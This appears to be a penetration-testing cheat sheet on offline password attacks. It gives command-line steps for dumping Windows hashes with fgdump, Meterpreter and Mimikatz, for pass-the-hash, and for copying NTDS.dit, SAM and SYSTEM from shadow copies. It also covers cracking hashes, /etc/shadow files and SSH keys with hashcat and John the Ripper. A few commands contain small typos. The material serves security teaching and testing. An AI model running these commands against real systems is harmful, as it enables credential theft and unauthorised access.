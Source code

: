 # Offline Attack

### Extracting Password Hashes from Windows

#### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

#### Meterpreter's Hashdump

> `meterpreter > hashdump`

#### Mimikatz
> `PS C:\temp\mimikatz> .\mimikatz`

>  `mimikatz # privilege::debug`

- lists all available provider credentials. This usually shows recently logged on user and computer credentials.

- Services running with account credentials are also dumped using this command.

- Note that only services that are running (credentials in memory) can be dumped in this manner.


>  `mimikatz # sekurlsa::logonpasswords`

##### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

> `sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd`



#### Volume Shadow Copy Services to copy ntds.dit


> `cscript vssown.vbs /start`

> `cscript vssown.vbs /create`

> `copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\`

### Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

### Cracking the Password

#### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

#### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux
  > john.conf
* Windows 
  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`




